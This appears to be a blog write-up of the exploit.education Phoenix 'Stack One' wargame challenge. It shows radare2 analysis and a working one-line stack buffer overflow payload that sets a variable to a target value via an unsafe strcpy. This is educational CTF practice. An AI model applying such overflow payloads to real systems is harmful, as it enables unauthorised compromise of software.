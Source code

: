 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 1

Write-up for: [https://exploit.education/phoenix/stack-one/][Stack One]

<!--more-->

I will omit the source code from now on. All future challenges will be approached from a black box perspective first to improve reversing skills. Also the source is available online (if exploit.education is down try wayback archive)

https://exploit.education/phoenix/stack-one/

This challenge is very similar to the previous one, it only requires a bit more precision in overflowing the buffer since a specific value is expected.

In this challenge, data is read via strcpy, using the first command line parameter as input. This call is unsafe and leads to a stack buffer overflow.

```
  strcpy(locals.buffer, argv[1]);
```

# Binary analysis

We can start off by looking at the binary using radare2:

```
radare2 stack-one
aa # analyze everything
s main
pD @ main

...
specify an argument, to be copied into the "buffer"" @ 0x804863c
...
ng_closer__changeme_is_currently_0x_08x__we_want_0x496c5962_n
...
```

Judging from these strings we can pass an argument to copy to a buffer. The is a variable called changeme which needs to be of a certain value.
Going from here, we would try to determine the length of the buffer. Various options exist: static analysis / RE, probing the binary or debugging it.

Since this is a very simple binary, let's skip the further analysis details.

The exploit:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-one `python -c 'print "A"*64 + "\x62\x59\x6c\x49"' `

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Note that the bytes in the payload are reversed to what we saw in the string due to the little-endian nature of the system.
  
